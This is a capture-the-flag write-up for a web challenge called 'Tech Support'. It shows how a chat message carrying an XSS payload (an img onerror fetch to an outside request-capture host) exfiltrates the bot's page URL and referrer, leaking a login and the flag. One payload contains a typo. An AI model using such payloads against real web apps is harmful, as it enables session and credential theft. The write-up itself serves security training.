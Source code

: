 # Tech Support (Web)

## Introduction

This challenge comes with the following instructions:

> Try chatting with tech support about getting a flag.

> Note: We have received multiple reports of exploits not working remotely, but we triple checked and concluded that the bot is working properly.

> https://typeselfsub.web.ctfcompetition.com/

This URL leads to a website for "Company x":

![Initial screen](img/home.png)


We must regiter to continue:

![Registration](img/register.png)


Two new URLs are available in the main menu.
https://typeselfsub.web.ctfcompetition.com/flag:

![Flag page](img/flag.png)


And https://typeselfsub.web.ctfcompetition.com/chat, where we can send chat messages.

![Chat page](img/chat.png)


The goal of this challenge is to perform an XSS attack on the chat user we are messaging in order to exfiltrate the flag.


## Observations

We will iniate the chat with this message and use [PTS](https://ptsv2.com/) to observe network requests.

```html
<img src=x onerror=fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?x='%2blocation.href)>
```

Note that "+" has to be encoded as "%2b". We can see that the chat user is currently at `https://typeselfsub-support.web.ctfcompetition.com/static/chat.html`.

![Exfiltration](img/pts.png)


We observe that the following pages are located on different subdomains:

* https://typeselfsub.web.ctfcompetition.com/flag
* https://typeselfsub-support.web.ctfcompetition.com/static/chat.html


Due to CORS restrictions, it is not possible to simply have the chat user fech the flag and to pass it to us.



## Exfiltration

Through trial and error, we find the solution in a different approach:

```html
<img src=x onerror=fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?x='%2document.referrer)>
```

![Exfiltration](img/pts2.png)

Note that the different parameters in the image are actually part of the [referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer). Stitching it back together, we get this URL: https://typeselfsub.web.ctfcompetition.com/asofdiyboxzdfasdfyryryryccc?username=mike&password=j9as7ya7a3636ncvx&reason=

We are now logged in as Mike and can grab the flag:

![The Flag](img/flag-final.png)

Flag: `CTF{self-xss?-that-isn't-a-problem-right...}`

